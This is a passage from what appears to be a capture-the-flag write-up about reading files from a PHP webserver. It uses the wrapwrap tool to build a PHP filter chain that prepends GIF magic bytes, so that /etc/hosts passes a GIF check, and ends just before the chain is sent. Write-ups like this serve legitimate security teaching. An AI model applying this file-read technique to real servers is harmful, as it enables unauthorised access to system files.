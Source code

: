 Get the path of a GIF:

```bash
root@5323f1453a8b:/var/www/html# find / -name '*.gif' 2>/dev/null | head

/usr/share/apache2/icons/pie7.gif  
/usr/share/apache2/icons/tar.gif  
/usr/share/apache2/icons/link.gif  
/usr/share/apache2/icons/forward.gif  
/usr/share/apache2/icons/transfer.gif  
/usr/share/apache2/icons/broken.gif  
/usr/share/apache2/icons/alert.red.gif  
/usr/share/apache2/icons/burst.gif  
/usr/share/apache2/icons/pie1.gif  
/usr/share/apache2/icons/ball.red.gif  
```

![GIF Found](image-20250130171504266)

It works! That reads a file from the host system and copies it onto the webserver.

---

## Read With wrapwrap

Knowing that works, I’ll try to read `/etc/hostname`:

![Attempt Hostname Read](image-20250130171652463)

It’s failing because the magic bytes for the file don’t match that of a GIF.

I can try things like filters to base64, but unless the resulting data starts with `GIF87a` or `GIF89a`, it’s going to return that same error.

The same author that found the buffer overflow in glibc had earlier written a tool named **wrapwrap** that uses PHP filters to prefix data.
In the example, if data is fetched and then parsed as JSON, you can prefix it with `{"<key>": "` and a suffix of `"}"` to get the data to process correctly.
Here, I can prepend the GIF magic bytes.

I’ll use wrapwrap to append the six-byte magic to the front of `/etc/hosts`:

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] python wrapwrap.py /etc/hosts "GIF89a" "" 1000

[!] Ignoring nb_bytes value since there is no suffix  
[+] Wrote filter chain to chain.txt (size=1443).
```

Chain contents:

```
php://filter/convert.base64-encode|convert.iconv.855.UTF7|...|convert.base64-decode/resource=/etc/hosts
```

I’ll pass that chain as the `url` parameter and send again:
